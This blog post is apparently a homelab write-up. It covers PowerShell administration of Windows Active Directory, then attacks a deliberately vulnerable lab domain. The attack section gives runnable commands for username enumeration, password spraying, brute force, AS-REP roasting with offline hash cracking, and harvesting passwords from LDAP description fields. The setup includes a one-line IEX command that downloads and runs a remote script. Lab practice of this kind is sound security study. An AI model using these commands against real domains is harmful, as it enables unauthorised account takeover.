+++
date = '2026-03-22T19:08:43+08:00'
draft = false
title = 'Exploring Windows Active Directory (AD)'
description = "Tinkering with Windows Active Directory (AD)"
showTableOfContents = true

+++

A Homelab where I will try to understand and perform basic **Active Directory (AD)** administrative tasks and later on performing attacks on the Window's Server with a vulnerable **AD** setup.

<!--more-->

---

## 🛠️ Installation and Setup

We will be hosting the Windows Server and client locally using **VMware Workstation Pro**.
You will need to download the following:

> Windows Evaluation Centre <br>
> [Download Windows 11 and 2022 Server](https://www.microsoft.com/en-us/evalcenter/) <br>
> <span class=text-muted>**Enter dummy data and download ISO*</span>

> VMware <br> 
> [Download VMware Workstation Pro](https://support.broadcom.com/group/ecx/productdownloads?subfamily=VMware%20Workstation%20Pro&freeDownloads=true)<br>
>  <span class=text-muted>**also enter dummy data if wanted, use a temp mail if preferred*</span>


### ⚙️ Setting Up the Windows Server

1. Use `sconfig` on the **Windows 2022 server** to configure the basics :
    - **Hostname** - set a name for the server
    - **Static IP Address** - assign a fixed IP (`192.168.x.155`)
        - default gateway: `192.168.x.2`
    - **DNS server** - point to server's own IP address

2. Install *VMware Installer Tool* <br>
    <span class="text-muted">(should be located in `D:` Drive)</span>
    ```ps
    .\setup64.exe
    ```
3. Install *Active Directory Domain Services*

    ```ps
    Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
    ```

4. Enable `PS-Remoting` in server <br>
This allows you to manage the server remotely from your workstation.
    - On workstation, run the following in `powershell`
    
     ```s
     # Start WinRM service
     Start-Sevice WinRM

     # trust the server
     set-item wsman:\localhost\Client\TrustedHosts -value "SERVER_IP"

     # verify
     get-item wsman:\localhost\Client\TrustedHosts -value "SERVER_IP"

     # create a remote session - will need to enter username/password of server
     New-PSSession -ComputerName "SERVER_IP" -Credential (get-Credential)

     # enter the session using the session ID returned above
     Enter-PSSession SESSION_ID
     ```


5. Promote Server to **Domain Controller**
    ```ps
    Import-Module ADDSDeployment
    Install-ADDSForest
    ```

    You will be prompted to enter a domain name and an administrator password. The server will restart automatically after promotion.
6. Join Workstation to the Domain
    ```s
    # check current network interfaces
    Get-DnsClientServerAddress

    # set DNS to the server's IP (replace NUM_FOR_Ethernet0)
    Set-DnsClientServerAddress -InterfaceIndex "NUM_FOR_Ethernet0" -ServerAddresses "SERVER_IP"

    # join Domain
    Add-Computer -DomainName "DOMAIN_NAME" -Credential DOMAIN\Administrator -Force -Restart
    ```

    Or via the **GUI**: *Settings → System → About → Domain or Workgroup*.

#### Remote connecting Workstation → Server

With PowerShell Remoting already configured on both machines, we can establish a remote session from the workstation to the server.

```ps
dc = New-PSSession "SERVER_IP" -Credential (Get-Credential);
Enter-PSSession $dc;
```

Once connected, `Enter-PSSession` starts an interactive remote shell, allowing commands to be executed directly on the server as if they were being run locally.

---

## 🌐 Active Directory Basic Tasks

This homelab focuses on understanding and performing basic **Active Directory (AD)** administrative tasks. Will be perfomed on :
- **Windows Server 2022** (`XYZ-DC`) 
- **Windows 11** client machine Workstation (`XYZ Management Client` and `Client01`)

>[!note] will be working exclusively on `powershell`

Here we explore how to:

- Create, list, and remove **Organizational Units (OUs)**

- Create, list, and manage **Users**

- Create, list, and manage **Groups**

- Add, list, and move **Computers** within the domain

Perform essential tasks such as *password resets, enabling/disabling accounts, moving objects between OUs, joining computers to the domain*, and creating and applying **Group Policy Objects (GPOs)**.

---


  

  
- #### Domain Controller (DC)
    A Windows Server that runs <abr title="Active Directory Domain Service">AD DS</abr> and is responsible for authenticating users and computers and enforcing directory policies. `XYZ-DC`
- #### Domain 
    A domain contains users, computers, groups, and policies sharing the same Active Directory database and DNS namespace. `xyz.com`
- #### Tree
    A tree is a group of one or more domains that share a contiguous DNS namespace and automatic trust relationships.
- #### Forest
    A forest is the highest-level Active Directory structure that contains one or more domain trees.
- #### Active Directory Objects

    Objects represent network resources such as users, computers, groups, and printers, each with unique attributes.
- #### Users
    Users represent individual accounts or services that can authenticate and access domain resources. `Client01`
- #### Computers
    Computer represent domain-joined machines that authenticate to Active Directory like users. `MAC addresses`
- #### Organizational Units (OUs)
    OUs are used to help organize  users, groups, and computers into logical containers. `IT,HR`
- #### Groups
    Groups are used to manage permissions or apply policies to multiple users at once. `Server Admins, IT Admins`
- #### Group Policy (GPO)
    GPOs are used to enforce security settings and configurations for users and computers.
  



### 🏢 Organizational Unit Operations

#### Creating OUs
We will be making 3 OUs :  `HR` , `ITSupport` , `Oops`
```powershell 
#Domain name, then TLD
New-ADOrganizationalUnit -Name "HR" -Path "DC=xyz,DC=com" 

New-ADOrganizationalUnit -Name "ITSupport" -Path "DC=xyz,DC=com"

New-ADOrganizationalUnit -Name "Oops" -Path "DC=xyz,DC=com"
```


#### Listing OUs
```powershell
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishedName -A
```


#### Removing OUs
We will remove the OU `Oops` and all its children 

if Accidental Deletion is on
```powershell
get-ADOrganizationalUnit -Identity "OU=Oops,DC=xyz,DC=com" | set-ADOrganizationalUnit –ProtectedFromAccidentalDeletion $false
```

else
```powershell
Remove-ADOrganizationalUnit -Identity "OU=Oops,DC=xyz,DC=com" -Recursive
```

---

### 👤 User Operations

#### Creating Users

```powershell
#Template for creating an account in ITSupport, at Domain xyz.com
New-ADUser `
  -Name "Bob Lee" `
  -SamAccountName "bob.lee" `
  -UserPrincipalName "bob.lee@xyz.com" `
  -Path "OU=ITSupport,DC=xyz,DC=com" `
  -AccountPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) `
  -Enabled $true `
  -ChangePasswordAtLogon $true
```

>[!note]
>
> - `-Path` specifies where the user account will be created in Active Directory. If omitted, the account is typically created in the default Users container (`CN=Users`).
>
> - `AccountPassword` can be entered manually with <br>
>  `-AccountPassword (Read-Host -AsSecureString 'AccountPassword')`
> - `ChangePasswordAtLogon` forces the user to set a new password upon their first login.
> 




#### Listing Users
```powershell
Get-ADUser -Filter * 

# or in a summary form
Get-ADUser -Filter * -Properties DisplayName, Enabled | Select Name, DisplayName, Enabled

# for specific OUs/Groups
Get-ADUser -Filter * -SearchBase "OU=ITSupport,DC=xyz,DC=com"

## get count
(Get-ADUser -Filter * -SearchBase "OU=ITSupport,DC=xyz,DC=com").Count

```



#### Removing Users
```powershell
Get-ADUser JohnDoe | Remove-ADUser

#or specifics
Get-ADUser -identity "CN=John Doe,CN=Users,DC=xyz,DC=com" | Remove-ADUser
```

#### Operations

- ##### Enable/Disable Account 
    <span class="text-muted">*user cannot login until enabled*</span>
    ```powershell
    Enable-ADAccount -identity bob.lee
    Disable-ADAccount -identity bob.lee
    ```
- ##### Change Password
    <span class="text-muted">*will be prompted for old and new password*</span>
    ```powershell
    Set-ADAccountPassword -identity bob.lee

    # or force a reset
    Set-ADAccountPassword -identity bob.lee -Reset 
    ```
- ##### Unlock Account 
    <span class="text-muted">*when account is locked due to incorrect password*</span>
    ```powershell
    Unlock-ADAccount -identity bob.lee
    ```
---

### 👥 Groups Operations

#### Create Groups
```powershell
# Template 
New-ADGroup -Name "ITSupport-Admins" `                  
  -SamAccountName "ITSupport-Admins" `  
  -GroupScope Global `                  
  -GroupCategory Security `              
  -Path "OU=ITSupport,DC=xyz,DC=com" ` 
  -Description "what it does"           
```
>[!note]
> - `GroupScope`  can be *global*, *universal*, *domainlocal*
> - `GroupCategory` can be 
>    - `Security` *grant access to files / folders / GPOs* 
>    - `Distribution` *emails / notifications*


#### List Groups

```powershell
# by SAM account name
Get-ADGroup -Identity Administrators
```

#### Remove Groups
```powershell
Remove-ADGroup -Identity "ITSupport-Admins"
```


#### Operations
- Add `User` to group
    ```powershell
    Add-ADGroupMember -Identity "ITSupport-Admins" -Members bob.lee
    ```

- Get all `users` in that group
    ```powershell
    Get-ADGroupMember -Identity "ITSupport-Admins" | 
    Where-Object { $_.objectClass -eq "user" } 
    ```


### 🖥️ Computers Operations
the physical device, can have many users

#### Add Computers
Computers can join the domain and it will update the `ADComputers` accordingly

Steps done:
1) Rename current PC to `client01`
2) Set DNS to `DC` IP Address
```powershell
 get-DNSClientServerAddress #show list of network

 # interfaceIndex of ethernet0, IP of Domain Controller
 set-DNSClientServerAddress -InterfaceIndex "ETHERNET0_INDEX" -ServerAddresses "SERVER_IP"
 #check configurations
 nslookup xyz.com
 ipconfig /all  
```
3) Join domain `xyz.com` with account `jane.doe`





#### List Computers
```powershell
#properties is optional for details
Get-ADComputer -Filter * -Properties *
```

#### Remove Computers

```powershell
Remove-ADComputer -Identity "Client01"
```


#### Moving Computers to an OU
`Client01` will now receive `GPOs` linked to the HR OU
```powershell
Move-ADObject "CN=CLIENT01,CN=Computers,DC=xyz,DC=com" -TargetPath "OU=HR,DC=xyz,DC=com"
```
---

### 📜 GPOs

Here we will create and link GPO in **HR OU** named `"HR Login Message"` and have computer `client01` receive a message when attempting to login


#### Creating GPO

```powershell
# Create and link GPO to an OU
New-GPO -Name "HR Login Message"
New-GPLink -Name "HR Login Message" -Target "OU=HR,DC=xyz,DC=com"
```

#### Listing GPO

```powershell
Get-GPO -Name "HR Login Message"
```


#### Setting GPO

```powershell
# Setting GPO policies
set-GPRegistryValue -Name "HR Login Message" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" -ValueName "LegalNoticeCaption" -Type String -Value "HR Notice"
set-GPRegistryValue -Name "HR Login Message" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" -ValueName "LegalNoticeText" -Type String -Value "For HR only"
```

#### check GPO policies settings
>[!tldr] Any computer in the HR OU will show the legal notice at logon
```powershell
get-GPRegistryValue -Name "HR Login Message" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System"
```

#### Policy Update
After the policy is created, `Invoke-GPUpdate` is used to force `Client01` to retrieve and apply the latest Group Policy settings immediately rather than waiting for the next automatic refresh cycle.
```powershell
Invoke-GPUpdate -Computer Client01 -Force
```

And if we restart we can see the notice on our workstation


---

## ⚔️ Active Directory Attacks

This homelab focuses on performing attacks on vulnerable **Active Directory (AD)** setups. Will be perfomed on :
- Windows Server 2022 (`XYZ-DC`) 
- Kali Linux (`Workstation`)

we will be using <span class="dotted-link">[safebuffer's vulnerable AD ↗](https://github.com/safebuffer/vulnerable-AD)</span> which will create a vulnerable active directory server.

### Setup

Same process for setting up a **Windows Server 2022** , but before installing Active Directory :

 *For this I have changed domain name to `bouncy.local` and a userlimit of `20`*

```powershell
# if you didn't install Active Directory yet , you can try 
Install-windowsfeature AD-domain-services
Import-Module ADDSDeployment
Install-ADDSForest -CreateDnsDelegation:$false -DatabasePath "C:\\Windows\\NTDS" -DomainMode "7" -DomainName "bouncy.local" -DomainNetbiosName "bouncy" -ForestMode "7" -InstallDns:$true -LogPath "C:\\Windows\\NTDS" -NoRebootOnCompletion:$false -SysvolPath "C:\\Windows\\SYSVOL" -Force:$true

# if you already installed Active Directory, just run the script !
IEX((new-object net.webclient).downloadstring("https://raw.githubusercontent.com/wazehell/vulnerable-AD/master/vulnad.ps1"));
Invoke-VulnAD -UsersLimit 20 -DomainName "bouncy.local"
```

>[!important] Remember to keep a snapshot! ;\)


Setting up **Kali Linux** can be followed via this <span class="dotted-link">[guide by Kali ↗](https://www.kali.org/docs/virtualization/install-vmware-guest-vm/)</span> <br>After which, we can download the require tools in Kali:

- `kerbrute`  → [kerbrute release page](https://github.com/ropnop/kerbrute/releases)
- `GetNPUsers.py` by impacket for AS-REP Roasting → [github](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
- `netexec` / `nxc` → `crackmapexec` successor, [netexec](https://github.com/Pennyw0rth/NetExec/releases)    
<span class="text-muted">*(If you are using Kali Linux, not required as in system already)*</span>


>[!tip] A Great Cheatsheet
> online webpage for windows AD vulnerable commands → [website](https://wadcoms.github.io/#) 

---


### <ins>Zero Credential</ins>
No username and password

#### Finding Accounts

Since this is our homelab, we will know the username in already but in a wild enviroment we can assume to get usernames from OSINT techniques such as social medias, linkedin etc. To generated a `known-names.txt`

> There is a naming convention for windows AD accounts and additional resources are <span class="dotted-link">[`username-anarchy ↗`](https://github.com/urbanadventurer/username-anarchy) and [`generate-ad-username ↗`](https://github.com/w0Tx/generate-ad-username)</span>

<ins>What I Did</ins>

I created a `known-names.txt` with usernames found in the server and ran through a python script to generate common AD usernames format
```python
# GenerateADNames.py
import sys

if len(sys.argv) != 2:
    print(f"Usage: python3 {sys.argv[0]} names.txt     -->  Output file : usernames.txt")
    sys.exit(1)

input_file = sys.argv[1]
output_file = "usernames.txt"

usernames = set()

with open(input_file, "r") as f:
    for line in f:
        line = line.strip()
        if not line or " " not in line:
            continue

        first, last = line.split(maxsplit=1)
        first = first.lower()
        last = last.lower()

        usernames.add(f"{first}.{last}")
        usernames.add(f"{last}.{first}")
        usernames.add(f"{first[0]}.{last}")
        usernames.add(f"{first}{last[0]}")
        usernames.add(first)
        usernames.add(last)

with open(output_file, "w") as f:
    for u in sorted(usernames):
        f.write(u + "\n")

print(f"[+] Generated {len(usernames)} usernames → {output_file}")
```
>[!done]
> Once we got `usernames.txt` in the correct format we can proceed to the next step


We can determine if a *username* exist using `kerbrute` and our `usernames.txt`. It will return all the valid username.
```s
kerbrute userenum -d "DOMAIN.NAME" --dc "SERVER_IP" "usernames.txt"
```



We can then save the valid username to another file `valid_usernames.txt`


### <ins>Username Only</ins>

Once we have one or many usernames, we can either do **Password Spraying** or **Brute Force** attempt to get a login

#### Password Spraying
Testing password on *multiple* users  

```
kerbrute passwordspray -d "DOMAIN.NAME" --dc "SERVER_IP" valid_usernames.txt Password123 
// or
nxc smb "SERVER_IP" -u valid_usernames.txt -p 'Changeme123!' --continue-on-success
```

#### Default Password
Some usual cases for default password can be
- `Changeme123!`
- `Password123!`




#### Brute Force 
Testing *multiple* password on a user

 ```sh
kerbrute bruteuser -d "DOMAIN.NAME" --dc "SERVER_IP" rockyou.txt "USERNAME.HERE"
 ```

#### Spraying + Bruteforce

My approach is using `nxc` to do *multiple* user and *bruteforce* password list of `rockyou.txt` <br>
<span class="text-muted">*(In Kali, will be located at `/usr/share/wordlists` and need to unzip it)*</span>

```sh
nxc smb "SERVER_IP" -u valid_usernames.txt -p rockyou.txt --ignore-pw-decoding --continue-on-success 
```
>[!warning] This may take a while as its bruteforcing a lot of password on a lot of accounts!




#### AS-REP Roasting


  
Why is it call **AS-REP Roasting**?
- AS : Authentication Service (Kerberos service on DC)
- REP : Reply (the response sent by the KDC)
- Roasting : “grab something and crack it offline”  

AS-REP roasting exploits Kerberos accounts with **pre-authentication disabled** by allowing attackers to request TGTs (Ticket Granting Ticket), extract session keys encrypted with the user’s NT hash, and crack them offline to recover the user’s password.
  
 --- With Pre-Auth Enabled --- 
 
 
 --- With Pre-Auth Disabled ---   
 Breaks **Step 1**, as server now doesnt authenticate user and reply instantly with:  
 - TGT encrypted with `krbtgt` key 
 - Session key encrypted with user's `NT Hash` (password)

 >[!note] Extract AS-REP Hash and do offline cracking of password
 
 >[!warning] Misconception : `Pre-Auth Disabled` does not mean No user password, is just server doesnt authenticate while user may still have a account password


  



 First we use `GetNPUsers.py` to identify any accounts with **Pre-Auth Disabled** and retreive its relative hashes <br>
 <span class="text-muted">(save it to `hashes.asreproast` file)</span>

 ```s
 GetNPUsers.py DOMAIN.NAME/ -usersfile valid_usernames.txt -format hashcat -dc-ip "SERVER_IP" -outputfile hashes.asreproast
 ```

 

 Once a hash is received, we can crack it using `hashcat` or `john` <br>
 
 >[!warning] only works for relatively easy passwords

 
 ```s
 john --format=krb5asrep hashes.asreproast --wordlist=./rockyou.txt
 # or
 hashcat -m 18200 --force -a 0 hashes.asreproast ./rockyou.txt
 ```

 

 and we got the password while being more stealthy! 

 >[!done] less request, unlikely to trigger SIEM alerts


### <ins>With a valid Username + Password</ins>

In my case, I used :  
- username : `sherri.marigold@bouncy.local`   
 password : `fuck`


#### Password in object description
we can use `ldap` to search password in object's description (`-w` is password)  think of it just like a *powershell*
```sh
ldapsearch -LLL -H ldap://192.168.181.156 -D 'sherri.marigold@bouncy.local' -w fuck -b 'dc=bouncy,dc=local' "(&(objectClass=user)(description=*))" "samaccountname" "description"
```

From there we got 2 accounts,   
- `samaria.shauna` : `W4tx(-HoG3-?`
- `christalle.robina` : `%2A-G[Do-f2;`

we can test it by :
```shell
ldapwhoami -H ldap://SERVER_IP -D 'samaria.shauna@bouncy.local' -w 'W4tx(-HoG3-?'

# and

ldapwhoami -H ldap://SERVER_IP -D 'christalle.robina@bouncy.local' -w '%2A-G[Do-f2;'
```

